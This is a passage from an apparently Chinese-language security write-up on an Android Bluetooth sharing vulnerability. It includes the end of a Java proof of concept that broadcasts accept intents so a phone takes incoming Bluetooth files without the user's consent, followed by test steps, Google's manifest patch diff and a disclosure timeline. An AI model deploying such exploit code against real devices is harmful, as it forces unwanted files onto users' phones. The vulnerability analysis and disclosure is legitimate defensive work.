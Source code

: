 ``` java
                // Then Send broadcast to change the incoming file status
                for (int i = 0 ; i < 255; i++) {
                    String uriString = BLUETOOTH_SHARE_URI + Integer.toString(i);
                    intent.setData(Uri.parse(uriString));
                    sendBroadcast(intent);
                }
            }
        });
    }
}
```

### 0x04 测试方法

通过蓝牙向测试手机发送文件，此时，手机将会出现提示，要用户拒绝或者接受，这个对话框将会出现约1分钟

Bluetooth Transfer PendingBluetooth Transfer Pending

此时运行POC，文件将会自动接收，因此这是一个本地用户交互绕过。如果有恶意程序利用该漏洞一直在后台运行，那么手机将会被强制接收任意蓝牙传入的文件。

### 0x05 修复

Google在Framework的AndroidManifest文件中，将android.btopp.intent.action.ACCEPT和DELINE设为保护状态，普通App无法发出携带这些action的Intent

``` txt
diff --git a/core/res/AndroidManifest.xml b/core/res/AndroidManifest.xml
index ec712bb..011884c 100644
--- a/core/res/AndroidManifest.xml
+++ b/core/res/AndroidManifest.xml
@@ -199,6 +199,8 @@
     <protected-broadcast android:name="android.btopp.intent.action.OPEN_INBOUND" />    
     <protected-broadcast android:name="android.btopp.intent.action.TRANSFER_COMPLETE" />
     <protected-broadcast android:name="com.android.bluetooth.gatt.REFRESH_BATCHED_SCAN" />
+    <protected-broadcast android:name="android.btopp.intent.action.ACCEPT" />
+    <protected-broadcast android:name="android.btopp.intent.action.DECLINE" />
     <protected-broadcast android:name="com.android.bluetooth.pbap.authchall" />
     <protected-broadcast android:name="com.android.bluetooth.pbap.userconfirmtimeout" />  
     <protected-broadcast android:name="com.android.bluetooth.pbap.authresponse" />
```

### 0x06 时间线

    2017.02.09——提交Google
    2017.03.01——漏洞确认
    2017.05.01——补丁发布
    2017.05.04——漏洞公开

## 蓝牙App漏洞系列分析之二CVE-2017-0639

### 0x01 漏洞简介
